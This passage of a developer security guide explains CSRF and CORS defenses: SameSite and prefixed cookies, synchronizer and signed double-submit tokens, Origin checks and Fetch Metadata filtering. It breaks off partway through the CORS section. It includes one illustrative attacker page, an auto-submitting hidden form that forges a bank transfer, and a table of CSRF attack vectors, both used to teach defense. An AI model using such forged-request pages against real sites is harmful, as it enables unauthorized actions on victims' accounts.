




# CSRF and CORS Defense for Modern Web Applications

CSRF and CORS sit on opposite sides of the same problem: how the browser
manages cross-origin trust on behalf of an already-authenticated user. CSRF
exploits *ambient authority* — the browser attaches your cookies to a request
the user did not intend. CORS is the controlled relaxation of the
[same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
so the *response* can be read by JavaScript on a different origin. Conflating
the two is one of the most consistent ways production code breaks: CORS is
not a CSRF defense, and SameSite is not a CORS substitute.

This article covers the spec-level mechanics of both, the defense layers a
modern stack should adopt together, and the misconfigurations that turn either
into a foot-gun. The target reader is a senior engineer who needs to design or
audit cookie attributes, CSRF tokens, and CORS headers for a production SPA +
JSON API.

 and server-side defenses (CSRF tokens, origin verification, custom headers) compose to block CSRF and police cross-origin reads.")


## Mental model

- **Same-Origin Policy (SOP)** is the browser's default. Scripts on `A` cannot read responses, DOM, or storage belonging to `B` when `A` and `B` differ in scheme, host, or port[^sop].
- **CSRF** abuses ambient authority. Cookies for `bank.com` are attached to *any* request to `bank.com` regardless of which page initiated it, so an attacker page can trigger writes the user never approved.
- **CORS** is *not* a security boundary. It does not prevent requests from being sent. It governs whether JavaScript on the initiating origin is allowed to *read the response*. A well-configured server still receives the request — and if that request can mutate state, you also need a CSRF defense.
- **`Sec-Fetch-*` headers** give the server the request's context (was it a navigation? a same-origin XHR? an ``?), letting you reject obviously hostile shapes before any token check.

Defense in depth is non-negotiable: each individual control has a documented bypass. The combination is what holds.

| Defense | What it protects | Documented bypass |
| --- | --- | --- |
| `SameSite=Strict` | Cross-site cookie attachment for all methods | Same-site XSS, subdomain takeover, embedded same-site frames |
| `SameSite=Lax` | Cross-site cookie attachment for non-safe methods (POST/PUT/DELETE/PATCH) | Top-level GET navigations; `Lax-allowing-unsafe` window for default-Lax cookies under 2 minutes old[^lau] |
| Synchronizer / signed double-submit token | Cross-site state-changing requests | XSS that can read the token off the page |
| CORS allowlist | Cross-origin **reads** of authenticated responses | Misconfigured wildcards, reflected `Origin`, trusted `null` |
| Custom request header (e.g. `X-CSRF-Token`) | Cross-origin AJAX writes (forces a preflight) | Form submissions and other simple-request shapes |
| `Origin` / `Referer` allowlist | Most cross-site requests where these are present | Requests where both headers are absent (privacy mode, downgrades) |
| `Sec-Fetch-Site` filtering | Cross-site fetches to sensitive endpoints in modern browsers | Legacy browsers without Fetch Metadata |

[^sop]: [MDN — Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy). Origin = (scheme, host, port).
[^lau]: [`draft-ietf-httpbis-rfc6265bis-22` §5.5](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/) defines `Lax-allowing-unsafe` as an enforcement *mode* (not a `SameSite` value) that user agents *may* apply to default-`Lax` cookies for top-level navigations using unsafe HTTP methods, with the recommended cookie-age cap of 2 minutes.

## The CSRF threat model

CSRF (Cross-Site Request Forgery) tricks an authenticated user's browser into
making a state-changing request to a target origin. The attacker does not need
to read the response; they only need the request to *fire* with the user's
cookies attached.

### Attack mechanics

The attack requires three preconditions, all of which the user-agent provides
by default:

1. The user is authenticated to the target with a session cookie that the browser will attach automatically.
2. The target authorizes the action based on that cookie alone (no per-request token, no origin check).
3. The attacker can induce the user's browser to issue the request — via ``, `<form>`, `fetch()`, `<link rel="prefetch">`, or any other element that initiates a network request.




The browser sees a request to `bank.com` and attaches `bank.com`'s cookies as
it always does. The server has nothing in the request that distinguishes the
attacker-induced POST from a deliberate one — both carry the same valid
session cookie.

### Attack vectors

| Vector | Method | Requires user action | Notes |
| --- | --- | --- | --- |
| `` | GET | None | Will run on every page view |
| `<form method="POST">` auto-submit | POST | None | The classic vector |
| `<form>` to `_blank` | POST | Click | Enabled by anchor-target tricks |
| `fetch()` / `XMLHttpRequest` with credentials | Any | None | Response unreadable, but the request still fires |
| `<link rel="prefetch">`, speculation rules | GET | None | Often forgotten in prefetch threat-modeling[^prefetch] |
| Service Worker `fetch()` | Any | None | Within scope of an attacker-controlled origin only |

**Example — hidden auto-submitted form:**

```html title="attacker.com/index.html"
<form action="https://bank.com/transfer" method="POST" id="evil">
  <input type="hidden" name="to" value="attacker-account" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>
  document.getElementById("evil").submit()
</script>
```

[^prefetch]: [Speculation Rules API — security considerations](https://developer.chrome.com/docs/web-platform/prerender-pages#privacy_considerations) (Chrome). Prerendered pages execute scripts and may issue subrequests.

### What CSRF cannot do

- **Read responses.** Same-origin policy blocks JavaScript on the attacker page from reading the response body[^sop]. CSRF is write-only by construction.
- **Forge requests with custom headers without preflight.** Setting any non-CORS-safelisted header (e.g. `X-CSRF-Token`, `Authorization`, or any custom name) forces an OPTIONS preflight that the target server can refuse[^fetch-simple].
- **Bypass `SameSite=Strict`.** Strict cookies are not attached on cross-site requests at all.
- **Extract CSRF tokens from rendered pages.** That requires XSS — a different and stronger vulnerability.

[^fetch-simple]: [Fetch Standard — CORS-safelisted request-header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header). Anything else triggers preflight.

## SameSite cookies

`SameSite` is the primary CSRF defense because it operates at the user agent,
before the request is built. Its semantics are normatively defined in
[`draft-ietf-httpbis-rfc6265bis-22` §5.5](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/)
(December 2025), the active draft of the cookies spec that obsoletes RFC 6265.

### Enforcement modes

| Mode | Behavior | Use case |
| --- | --- | --- |
| `Strict` | Cookie sent only when the request's site matches the cookie's site | Session and auth cookies |
| `Lax` | Same-site requests + cross-site **top-level navigations** that use a *safe* HTTP method (GET, HEAD) | Default; balances security and usability |
| `None` | Sent in all contexts. **Requires `Secure`** — browsers reject `SameSite=None` without it[^samesite-none] | Cross-site embeds, third-party SDKs, federated login that round-trips through another origin |

Per the spec, any unrecognized `SameSite` value falls back to `Lax`
enforcement, and a missing attribute is treated as `Default` (which user
agents map to `Lax` in modern browsers).

[^samesite-none]: [web.dev — SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained); [Chromium intent-to-ship](https://groups.google.com/a/chromium.org/g/blink-dev/c/AknSSyQTGYs/m/YKBxPCScCwAJ).

#### "Same-site" vs "same-origin"

These are not the same. Two requests are *same-site* when the [registrable
domain](https://html.spec.whatwg.org/multipage/browsers.html#concept-origin)
matches (eTLD+1 per the [Public Suffix List](https://publicsuffix.org/)).
Two requests are *same-origin* when scheme, host, and port all match.

- `https://app.example.com` ↔ `https://api.example.com` → **same-site**, cross-origin
- `https://example.com` ↔ `https://example.co.uk` → cross-site (different registrable domains)
- `http://example.com` ↔ `https://example.com` → cross-site under [Schemeful Same-Site](https://web.dev/articles/schemeful-samesite)

This matters for `__Host-` cookies and for SameSite enforcement: a subdomain
takeover on `abandoned.example.com` is still *same-site* with `app.example.com`.

### Default behavior in 2026

[Chrome 80](https://www.chromium.org/updates/same-site/) (Feb 2020, gradually
re-rolled out July 2020 with Chrome 84 after a COVID rollback) was the first
mainstream browser to treat cookies without an explicit `SameSite` attribute
as `Lax`. Edge mirrors Chromium. Firefox and Safari handle defaults
inconsistently across versions.

> [!IMPORTANT]
> Always set `SameSite` *explicitly*. Relying on browser defaults gives you
> different behavior across vendors and versions, and forfeits the strongest
> control you have over cross-site cookie attachment.

```http
Set-Cookie: __Host-session=abc123; Secure; HttpOnly; SameSite=Strict; Path=/
```

### `Lax-allowing-unsafe` (the "Lax+POST" exception)

When Chrome shipped Lax-by-default, it broke SSO flows that relied on
cross-site `POST` callbacks (SAML, some OAuth modes). The mitigation
codified in
[`rfc6265bis-22` §5.5](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/)
is the `Lax-allowing-unsafe` enforcement mode:

- It is *not* a `SameSite` value you set on a cookie.
- It is an enforcement mode the user agent **MAY** apply to cookies that
  *did not* explicitly specify a `SameSite` attribute.
- When active, those cookies are attached to top-level cross-site navigations
  using unsafe methods (e.g. `POST`) provided the cookie age is at most
  2 minutes (the spec's recommended ceiling).

> [!WARNING]
> The exception is opt-out by construction: it only applies to cookies *without* a
> `SameSite` attribute. Any cookie that sets `SameSite=Strict`, `Lax`, or
> `None` is never eligible. The mitigation is a transitional crutch — Chromium
> documented intent to remove the 2-minute window
> ([SameSite Updates, Nov 2019](https://www.chromium.org/updates/same-site/))
> and recommends migrating SSO flows to `SameSite=None; Secure`.

### Cookie prefixes: `__Host-` and `__Secure-`

Cookie name prefixes
([`rfc6265bis-22` §4.1.3](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/))
let the server pin security properties through the cookie name itself. The
browser refuses to set a cookie that violates the prefix's invariants, so the
guarantees survive misconfigured proxies, CDNs, and frameworks.

| Prefix | Browser-enforced invariants |
| --- | --- |
| `__Secure-` | Must be `Secure`; can only be set over HTTPS |
| `__Host-` | Must be `Secure`; **must not** have a `Domain` attribute (locked to the exact host); must have `Path=/`; cannot be set over HTTP |

`__Host-` is the strictest: it makes the cookie un-overwriteable by sibling
subdomains. If `app.example.com` issues `__Host-session`, an attacker who
takes over `evil.example.com` cannot displace it; without the prefix, a
sibling subdomain could write a `Domain=example.com` cookie that shadows or
replaces the legitimate one[^host-prefix].

```http
Set-Cookie: __Host-session=abc123; Secure; HttpOnly; Path=/; SameSite=Strict
```

The trade-off: `__Host-` cookies cannot be shared across subdomains. If your
auth domain (`auth.example.com`) needs to issue cookies that the application
domain (`app.example.com`) reads, use `__Secure-` and a `Domain=example.com`
attribute, accepting the sibling-subdomain risk in exchange.

[^host-prefix]: OWASP CSRF Prevention Cheat Sheet — [Use of Custom Request Headers and Other Defense-in-Depth Mitigations](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html).

### Picking a SameSite mode




### SameSite behavior matrix

The exact "is the cookie sent?" answer depends on three things: the cookie's `SameSite` mode, the request's site relationship to the cookie's site, and — for cross-site requests — whether it is a top-level navigation and its HTTP method.

| Request shape                                                    | `Strict` | `Lax`                          | `None; Secure`   |
| ---------------------------------------------------------------- | -------- | ------------------------------ | ---------------- |
| Same-site (any method, any context)                              | sent     | sent                           | sent             |
| Cross-site top-level navigation, safe method (GET / HEAD)        | not sent | sent                           | sent             |
| Cross-site top-level navigation, unsafe method (POST / PUT / …)  | not sent | not sent[^lau-matrix]          | sent             |
| Cross-site sub-resource (``, `<script>`, `<iframe>`, fetch) | not sent | not sent                       | sent             |
| Cross-scheme (HTTP ↔ HTTPS) of the same registrable domain       | not sent | not sent (Schemeful Same-Site) | sent             |

[^lau-matrix]: Default-`Lax` cookies (no explicit `SameSite` attribute) are subject to the `Lax-allowing-unsafe` exception above; cookies that explicitly set `SameSite=Lax` are not eligible.

### Partitioned cookies (CHIPS)

[Cookies Having Independent Partitioned State (CHIPS)](https://privacysandbox.google.com/cookies/chips) adds a `Partitioned` attribute that double-keys the cookie on *(top-level site, cookie host)* instead of just the cookie host. A widget embedded on `news.example` and the same widget embedded on `shop.example` see separate cookie jars even though they share a registrable domain. Shipped in Chromium 114; reached the cross-engine "newly available" baseline in December 2025[^chips-mdn].

| Without `Partitioned`                                                    | With `Partitioned`                                                                       |
| ------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------- |
| One global cookie jar per cookie host across all top-level sites         | One cookie jar per *(top-level site, cookie host)* pair                                  |
| Modern browsers block these unpartitioned third-party cookies by default | Required for embedded widgets (chat, payment, federated login) to keep state cross-site  |
| `__Host-` + `Secure` recommended                                         | Must include `Secure` and `SameSite=None`; `__Host-` prefix recommended[^chips-mdn]      |

```http
Set-Cookie: __Host-widget=abc123; Secure; Path=/; SameSite=None; Partitioned
```

CHIPS is a *cross-site state* control, not a CSRF defense. A request from `news.example` to the embedded widget on `widget.example` is still cross-site, so partitioned cookies tagged `SameSite=None` are still attached to attacker-induced requests inside that same partition. Pair them with the same CSRF token + `Origin` allowlist + Fetch Metadata stack you would use for any other `SameSite=None` cookie.

[^chips-mdn]: [MDN — Cookies Having Independent Partitioned State (CHIPS)](https://developer.mozilla.org/en-US/docs/Web/Privacy/Guides/Privacy_sandbox/Partitioned_cookies). The `Partitioned` attribute requires `Secure` and is intended for cookies set with `SameSite=None`.

### What SameSite does not protect against

1. **Same-site XSS.** A script running on any subdomain shares the SameSite cookie scope. SameSite does nothing against attacks already inside the trust boundary.
2. **Subdomain takeover.** An abandoned `*.example.com` host that an attacker can register or DNS-hijack is *same-site* with everything else under `example.com`.
3. **Same-site GET state changes.** If `GET /transfer?to=evil` mutates state, `SameSite=Lax` will happily attach the cookie on a top-level navigation. (Don't do that — but the SameSite layer is not what saves you.)
4. **Speculation / prerender / prefetch.** User-initiated speculative loads can carry credentials in some browsers; this is a moving target[^prefetch].

The takeaway: SameSite is necessary, never sufficient. Always pair it with a
server-side defense for state-changing endpoints.

## CSRF tokens

CSRF tokens add per-request authentication beyond the ambient cookie. The
server embeds a secret value in the rendered page (or sets it as a non-HTTP
cookie), and validates that the value comes back with each state-changing
request. The attacker's page cannot read the token cross-origin, so cannot
include the right value in a forged request.

### Synchronizer token pattern (stateful)

The server generates a random token, stashes it in the user's session
record, and embeds it in forms or returns it in a JSON bootstrap.

```javascript title="csrf-synchronizer.ts"
import crypto from "crypto"

class SynchronizerTokenManager {
  generateToken(session) {
    const token = crypto.randomBytes(32).toString("hex")
    session.csrfToken = token
    return token
  }

  verifyToken(session, submittedToken) {
    if (!session.csrfToken || !submittedToken) return false
    return crypto.timingSafeEqual(
      Buffer.from(session.csrfToken),
      Buffer.from(submittedToken),
    )
  }
}

app.use((req, res, next) => {
  if (!req.session.csrfToken) {
    req.session.csrfToken = crypto.randomBytes(32).toString("hex")
  }
  res.locals.csrfToken = req.session.csrfToken
  next()
})
```

Use [`crypto.timingSafeEqual`](https://nodejs.org/api/crypto.html#cryptotimingsafeequala-b)
to defeat timing oracles on the comparison.

| Advantage | Disadvantage |
| --- | --- |
| Strongest guarantee — token is server-state | Requires session storage on every authenticated request |
| Easy to reason about and audit | Hostile to stateless / serverless deployments |
| Built-in to virtually every framework | Session storage scales with active users |

### Signed double-submit cookie (stateless)

Recommended by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#signed-double-submit-cookie-recommended)
when you cannot keep server-side state. The server sets a CSRF cookie and
requires the same value in a header or body field. The trick is the *signing*:
the token is bound to the session via HMAC so an attacker who can write a
cookie cannot simply set both sides to a value of their choice.

OWASP's recommended construction:

```text
message = sessionID.length + "!" + sessionID + "!" + randomValue.length + "!" + randomValue
hmac    = HMAC_SHA256(serverSecret, message)
token   = hex(hmac) + "." + hex(randomValue)
```

The length-prefix delimiters defend against ambiguity attacks where an
attacker who controls part of the input could rearrange components to produce
a colliding HMAC.

```javascript title="csrf-signed-double-submit.ts"
import crypto from "crypto"

class SignedDoubleSubmitCSRF {
  constructor(secretKey) {
    this.secretKey = secretKey
  }

  generateToken(sessionId) {
    const rand = crypto.randomBytes(16).toString("hex")
    const message = `${sessionId.length}!${sessionId}!${rand.length}!${rand}`
    const hmac = crypto
      .createHmac("sha256", this.secretKey)
      .update(message)
      .digest("hex")
    return `${hmac}.${rand}`
  }

  verifyToken(sessionId, token) {
    if (!token || !token.includes(".")) return false
    const [submittedHmac, rand] = token.split(".")
    const message = `${sessionId.length}!${sessionId}!${rand.length}!${rand}`
    const expected = crypto
      .createHmac("sha256", this.secretKey)
      .update(message)
      .digest("hex")
    if (submittedHmac.length !== expected.length) return false
    return crypto.timingSafeEqual(
      Buffer.from(submittedHmac),
      Buffer.from(expected),
    )
  }
}

app.post("/api/transfer", (req, res) => {
  const cookieToken = req.cookies["__Host-csrf"]
  const headerToken = req.headers["x-csrf-token"]

  if (
    !cookieToken ||
    cookieToken !== headerToken ||
    !csrf.verifyToken(req.session.id, headerToken)
  ) {
    return res.status(403).json({ error: "CSRF validation failed" })
  }
  // process request
})
```

> [!WARNING]
> The CSRF cookie **must** use the `__Host-` prefix and `SameSite=Strict`.
> Without `__Host-`, an attacker who controls a subdomain can set a
> `Domain=example.com` CSRF cookie that the legitimate origin will read,
> defeating the whole pattern. Without `SameSite`, the attacker can chain a
> cookie-injection bug into a CSRF.

 with HMAC, sets it in a __Host- cookie, and requires the same value in the header on each state-changing request.")


### Custom request header

The simplest server-side CSRF defense for AJAX is to require a custom request
header on state-changing methods. Any header outside the
[CORS-safelisted set](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)
forces a CORS preflight, which the cross-origin attacker page cannot
satisfy without the server's explicit `Access-Control-Allow-Headers`.

```javascript title="custom-header-middleware.ts"
function requireCustomHeader(req, res, next) {
  if (["POST", "PUT", "DELETE", "PATCH"].includes(req.method)) {
    if (req.headers["x-requested-with"] !== "XMLHttpRequest") {
      return res.status(403).json({ error: "Missing CSRF header" })
    }
  }
  next()
}

await fetch("/api/transfer", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "X-Requested-With": "XMLHttpRequest",
  },
  credentials: "include",
  body: JSON.stringify({ amount: 100 }),
})
```

This works because `application/json` is *also* not in the safelisted
content-type list[^fetch-simple], so even without the custom header the
request would preflight. Two failure modes to watch for:

- **HTML form submissions** are simple requests by design — they cannot set
  custom headers and they always work cross-site. Custom headers do not
  defend forms; pair this with origin verification.
- **Service workers and proxies** sometimes strip `X-Requested-With`. Don't
  rely on a single header existing; combine with a real CSRF token.

| Framework convention | Header name |
| --- | --- |
| Rails, Laravel, Django | `X-CSRF-Token` |
| AngularJS, axios | `X-XSRF-TOKEN` |
| Express (`csurf`) | `CSRF-Token` |

### Origin / Referer verification

`Origin` and `Referer` are [forbidden request-header names](https://fetch.spec.whatwg.org/#forbidden-request-header) in the Fetch standard — JavaScript cannot set or override them. That makes them trustworthy *when present*. The `Origin` header itself is defined by [RFC 6454](https://datatracker.ietf.org/doc/html/rfc6454) as the (scheme, host, port) tuple of the request initiator, or the literal string `null` for opaque origins. The catch is when they are absent: privacy
modes, `Referrer-Policy: no-referrer`, certain `<meta>` policies, and
intra-origin tooling can strip both.

| Header | Sent on | Notes |
| --- | --- | --- |
| `Origin` | All cross-origin requests; same-origin requests with non-GET methods | Always exactly the (scheme, host, port) tuple or the literal string `null` |
| `Referer` | Most navigations and subresource requests | Subject to `Referrer-Policy`; the page can downgrade or strip |

```javascript title="origin-verification-middleware.ts"
const ALLOWED_ORIGINS = new Set([
  "https://app.example.com",
  "https://www.example.com",
])

function verifyOrigin(req, res, next) {
  const origin = req.headers["origin"]
  const referer = req.headers["referer"]

  let sourceOrigin = origin || null
  if (!sourceOrigin && referer) {
    try {
      sourceOrigin = new URL(referer).origin
    } catch {
      sourceOrigin = null
    }
  }

  if (sourceOrigin === "null") {
    return res.status(403).json({ error: "Null origin not allowed" })
  }

  if (sourceOrigin && !ALLOWED_ORIGINS.has(sourceOrigin)) {
    return res.status(403).json({ error: "Origin not allowed" })
  }

  if (!sourceOrigin && req.method !== "GET") {
    return res.status(403).json({ error: "Missing origin/referer" })
  }
  next()
}
```

Reject requests where both headers are absent on state-changing methods —
that case should fall back to a token, not "trust by silence". Treat the
literal string `"null"` as hostile, never as "missing".

## Fetch Metadata: server-side request filtering

[Fetch Metadata Request Headers](https://www.w3.org/TR/fetch-metadata/) (W3C
Working Draft, last updated 2025-04-01) attach `Sec-Fetch-*` headers to every
outgoing request, telling the server what kind of fetch it is *before* the
server has to inspect cookies, paths, or bodies. The
[`Sec-` prefix is forbidden](https://fetch.spec.whatwg.org/#forbidden-request-header)
to JavaScript, so attackers cannot spoof the request shape.

### Header values

**`Sec-Fetch-Site`** — relationship between the request initiator and the target:

| Value | Meaning |
| --- | --- |
| `same-origin` | Same scheme, host, port |
| `same-site` | Same registrable domain, different origin |
| `cross-site` | Different registrable domain |
| `none` | User-initiated (address bar, bookmark, restored tab) |

**`Sec-Fetch-Mode`** — request mode:

| Value | Meaning |
| --- | --- |
| `navigate` | Top-level navigation |
| `cors` | Cross-origin fetch with CORS |
| `no-cors` | Simple cross-origin embed (``, classic `<script>`) |
| `same-origin` | Same-origin fetch |
| `websocket` | WebSocket upgrade |

**`Sec-Fetch-Dest`** — destination context (e.g. `document`, `iframe`,
`script`, `image`, `style`, `font`, `empty` for `fetch()` / `XHR`,
`audio`, `video`, `worker`, `serviceworker`).

**`Sec-Fetch-User`** — `?1` if the navigation was activated by a user gesture
(click, keyboard); omitted otherwise.

### Resource Isolation Policy

A typical guard rejects everything cross-site by default and explicitly
opens up the public-asset and CORS API surface:

```javascript title="fetch-metadata-policy.ts"
function fetchMetadataPolicy(req, res, next) {
  const site = req.headers["sec-fetch-site"]
  const mode = req.headers["sec-fetch-mode"]
  const dest = req.headers["sec-fetch-dest"]

  if (!site) return next() // legacy browser, fall through to other layers

  if (site === "same-origin" || site === "none") return next()

  if (site === "same-site" && mode === "navigate") return next()

  if (site === "cross-site") {
    if (
      (dest === "image" || dest === "script" || dest === "style") &&
      req.path.startsWith("/public/")
    ) {
      return next()
    }
    return res.status(403).json({ error: "Cross-site request blocked" })
  }
  next()
}
```

Pair this with the Resource Isolation pattern from
[web.dev — Protect your resources from web attacks with Fetch Metadata](https://web.dev/articles/fetch-metadata):
deny everything cross-site that is not an explicit GET embed of a public
asset or a CORS-tagged API call.

### Browser support

Per [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Sec-Fetch-Site)
(verified April 2026):

| Header | Chrome / Edge | Firefox | Safari |
| --- | --- | --- | --- |
| `Sec-Fetch-Site` | 76 / 79 | 90 | 16.4 |
| `Sec-Fetch-Mode` | 76 / 79 | 90 | 16.4 |
| `Sec-Fetch-Dest` | 80 / 80 | 90 | 16.4 |
| `Sec-Fetch-User` | 76 / 79 | 90 | 16.4 |

Treat Fetch Metadata as a defense-in-depth layer, not the sole defense:
older browsers and a small share of clients send no `Sec-Fetch-*` headers
at all. Reject hostile shapes, but always fall through to your token check
when the headers are missing.

## CORS: controlled SOP relaxation

[CORS](https://fetch.spec.whatwg.org/#http-cors-protocol) is a browser
mechanism that lets a server declare which foreign origins are allowed to
*read* its responses. It does not authenticate the request, it does not stop
the request from being sent, and it does not police what the server does with
the request — it only changes what JavaScript on the initiating origin can
observe in the response.

### Same-Origin Policy refresher

Two URLs share an origin when scheme, host, and port all match. SOP blocks:

- JavaScript reading cross-origin response bodies and headers (other than a small CORS-safelisted set)
- Reading cross-origin DOM, `localStorage`, `sessionStorage`, IndexedDB
- Direct cross-origin cookie access from JavaScript

It does **not** block:

- Sending cross-origin requests (``, `<form>`, `fetch` with `mode: 'no-cors'`)
- Embedding cross-origin resources (``, `<script>`, `<link>`, `<iframe>`)
- Cross-origin form submissions

